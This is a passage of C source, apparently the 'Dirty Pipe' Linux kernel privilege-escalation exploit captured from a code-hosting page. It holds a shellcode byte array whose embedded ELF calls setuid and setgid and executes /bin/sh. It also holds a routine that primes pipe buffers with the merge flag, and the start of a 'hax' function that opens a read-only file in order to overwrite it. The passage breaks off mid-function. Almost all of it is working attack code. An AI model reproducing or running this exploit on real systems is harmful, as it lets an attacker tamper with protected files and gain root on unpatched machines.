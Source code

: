 ````
	0x48, 0xc7, 0xc0, 0x5a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x31, 0xff,
	0x48, 0xc7, 0xc0, 0x3c, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x2f, 0x74, 0x6d,
	0x70, 0x2f, 0x73, 0x68, 0x00, 0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e,
	0x00, 0x01, 0x00, 0x00, 0x00, 0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38,
	0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00,
	0x00, 0x05, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40,
	0x00, 0x00, 0x00, 0x00, 0x00, 0xba, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0xba, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x31, 0xff, 0x48, 0xc7, 0xc0, 0x69,
	0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x31, 0xff, 0x48, 0xc7, 0xc0, 0x6a,
	0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x8d, 0x3d, 0x1b, 0x00, 0x00, 0x00,
	0x6a, 0x00, 0x48, 0x89, 0xe2, 0x57, 0x48, 0x89, 0xe6, 0x48, 0xc7, 0xc0,
	0x3b, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0xc7, 0xc0, 0x3c, 0x00, 0x00,
	0x00, 0x0f, 0x05, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00
};

/**
 * Create a pipe where all "bufs" on the pipe_inode_info ring have the
 * PIPE_BUF_FLAG_CAN_MERGE flag set.
 */
static void prepare_pipe(int p[2])
{
	if (pipe(p)) abort();

	const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
	static char buffer[4096];

	/* fill the pipe completely; each pipe_buffer will now have
	   the PIPE_BUF_FLAG_CAN_MERGE flag */
	for (unsigned r = pipe_size; r > 0;) {
		unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
		write(p[1], buffer, n);
		r -= n;
	}

	/* drain the pipe, freeing all pipe_buffer instances (but
	   leaving the flags initialized) */
	for (unsigned r = pipe_size; r > 0;) {
		unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
		read(p[0], buffer, n);
		r -= n;
	}

	/* the pipe is now empty, and if somebody adds a new
	   pipe_buffer without initializing its "flags", the buffer
	   will be mergeable */
}

int hax(char *filename, long offset, uint8_t *data, size_t len) {
	/* open the input file and validate the specified offset */
	const int fd = open(filename, O_RDONLY); // yes, read-only! :-)
	if (fd < 0) {
		perror("open failed");
		return -1;
	}

	struct stat st;
	if (fstat(fd, &st)) {
		perror("stat failed");
````
